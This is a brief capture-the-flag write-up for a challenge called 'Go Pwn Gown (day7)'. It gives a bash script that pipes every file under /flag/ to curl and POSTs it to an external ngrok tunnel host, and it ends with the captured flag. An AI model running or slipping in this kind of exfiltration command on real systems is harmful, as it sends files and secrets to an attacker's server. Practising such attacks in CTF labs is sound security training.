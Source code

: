 # Go Pwn Gown (day7)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
